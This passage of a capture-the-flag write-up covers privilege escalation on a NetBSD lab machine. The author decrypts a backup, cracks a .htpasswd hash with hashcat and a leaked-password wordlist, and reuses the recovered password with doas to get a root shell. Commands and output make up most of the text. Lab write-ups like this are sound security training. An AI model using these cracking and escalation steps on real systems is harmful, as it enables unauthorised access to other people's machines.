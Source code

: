 Some research online reveals that on NetBSD the tool [netpgp](https://man.netbsd.org/netpgp.1) can be used used to decrypt files:

```sh
luanne$ cd backups/

luanne$ netpgp --decrypt --output=/tmp/backup.tar.gz  devel_backup-2020-09-16.tar.gz.enc
signature  2048/RSA (Encrypt or Sign) 3684eb1e5ded454a 2020-09-14
Key fingerprint: 027a 3243 0691 2e46 0c29 9f46 3684 eb1e 5ded 454a
uid              RSA 2048-bit key <r.michaels@localhost>

luanne$ cd /tmp

luanne$ tar -xzvf backup.tar.gz
x devel-2020-09-16/
x devel-2020-09-16/www/
x devel-2020-09-16/webapi/
x devel-2020-09-16/webapi/weather.lua
x devel-2020-09-16/www/index.html
x devel-2020-09-16/www/.htpasswd
```

Decrypting the file to the `tmp` directory and extracting it shows another `.htpasswd` file. Let's also try and crack it in the same manner as before by copying the hash to our local machine and run hashcat on it.

```sh
$ hashcat -a 0 -m 500 -o cracked.txt hashes /opt/SecLists/Passwords/Leaked-Databases/rockyou.txt --username --show

 $ cat cracked.txt
webapi_user:$1$6xc7I/LW$WuSQCS6n3yXsjPMSmwHDu.:littlebear
```

Another password cracked! This time it returns `littlebear`, but it seems that this password is supposedly for the same webapi_user. On a BSD system, `doas` is the equivalent of `sudo` on Linux. So let's see if `r.micheals` is allowed to run programs as root:

```sh
luanne$ doas whoami
Password:
root
```

Alright, we have root access with this password. Suppose you are in a situation where you want to play on the safe side, not set off any alarms, ... . It's possible first to check the `doas.conf` file, similar to the `sudoers` file on Linux; it will show if a user has sudo access and what access is allowed. I skipped this step because I couldn't locate the `doas.conf` file on this NetBSD system and didn't want to waste much more time. Or use a privilege escalation suite which could probably also detect this for you.

```sh
luanne$ doas sh
Password:
# ls
# cd /root
# ls -al
total 36
drwxr-xr-x   2 root  wheel   512 Nov 24 09:30 .
drwxr-xr-x  21 root  wheel   512 Sep 16  2020 ..
-r--r--r--   2 root  wheel  1220 Feb 14  2020 .cshrc
-rw-------   1 root  wheel    59 Feb 14  2020 .klogin
-rw-r--r--   1 root  wheel   212 Feb 14  2020 .login
-r--r--r--   2 root  wheel   701 Feb 14  2020 .profile
-rw-r--r--   1 root  wheel   221 Feb 14  2020 .shrc
-r-x------   1 root  wheel   178 Nov 24 09:57 cleanup.sh
-r--------   1 root  wheel    33 Sep 16  2020 root.txt
```
